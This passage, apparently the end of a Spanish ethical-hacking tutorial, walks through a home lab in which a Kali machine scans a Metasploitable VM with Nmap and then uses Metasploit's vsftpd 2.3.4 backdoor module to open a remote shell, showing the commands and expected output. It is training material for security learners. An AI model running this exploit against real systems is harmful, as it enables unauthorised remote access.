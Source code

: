 
#### 🧪 Escenario

- IP de Kali: `192.168.1.10`
- IP de víctima (Metasploitable): `192.168.1.100`

#### 🔹 Paso 1: Escaneo de puertos con Nmap

```bash
nmap -sS -sV 192.168.1.100
```

**Resultado ejemplo:**

```
21/tcp  open  ftp     vsftpd 2.3.4
22/tcp  open  ssh     OpenSSH 4.7p1
23/tcp  open  telnet  Linux telnetd
...
```

#### 🔹 Paso 2: Analizar un servicio

El puerto 21 tiene **vsftpd 2.3.4**, que es vulnerable a una **backdoor** conocida.

#### 🔹 Paso 3: Usar Metasploit para explotarlo

```bash
msfconsole
```

```bash
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.1.100
set RPORT 21
run
```

**Resultado esperado:**

```
[*] Command shell session 1 opened
```

¡Listo! Has accedido a una **shell remota** en la máquina víctima gracias a un servicio vulnerable.

---

### 📚 Conclusión

Ahora sabes:

✅ Qué necesitas para comenzar como hacker ético de redes

✅ Cómo preparar tu laboratorio

✅ Cómo escanear puertos y servicios

✅ Cómo identificar vulnerabilidades reales

